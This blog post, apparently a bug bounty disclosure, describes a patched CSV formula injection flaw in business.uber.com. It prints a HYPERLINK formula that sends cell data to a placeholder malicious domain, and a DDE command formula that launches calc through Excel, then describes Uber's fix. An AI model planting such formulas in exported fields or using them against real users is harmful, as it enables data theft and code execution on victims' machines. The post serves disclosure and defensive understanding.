 <!-- 
.. title: CSV Injection in business.uber.com
.. slug: csv-injection-in-businessubercom
.. date: 2016-04-17 19:30:03 UTC-04:00
.. tags: 
.. category: 
.. link: 
.. description: 
.. type: text
-->

```business.uber.com``` allows for names to begin with a ```=``` which allows for injection of formulas into the downloaded CSVs. There are two main ways that this can be exploited: 

1. It allows for data exfiltration through HYPERLINKs
2. It allows for code execution on the user's machine provided that they trust Uber

1 can be done by setting one's username to something of the form:  ```"=HYPERLINK("https://maliciousDomain.com/evil.html?data="&A1, "Click to view additional information")"```. This will create a cell that will show the text "Click to view additional information" but when clicked will send the data in A1 to ```maliciousDomain.com```. 

2 can be done by setting one's username to something of the form: ```=cmd|' /C calc'!A0``` (this will open Windows calculator). If a CSV contains a command like the above, excel will warn the user with two different pop up boxes. The problem is that these boxes ask the user whether they "trust the source of" the file. Since most users will trust Uber as a source, they will click through both of these warnings without worry. 

![firstBox](/firstBox.png)

![secondBox](/secondBox.png)

While it is true that one needs to be an admin on the business page in order to change the username, this still qualifies as a vulnerability (and not simply a self-CSV-injection) since there can be multiple admins. This allows for one admin to get code execution on another admin's computer through the download CSV function. 

Uber patched this by prepending a ```'``` to any names starting with ```=```, ```+```, ```-```. 

I reported this to Uber's bug bounty on March 25th, it was triaged on the 28th, and patched on the 30th. A 1000 dollar bounty was awarded on April 6th. You can see the original report [here](https://hackerone.com/reports/126109). 

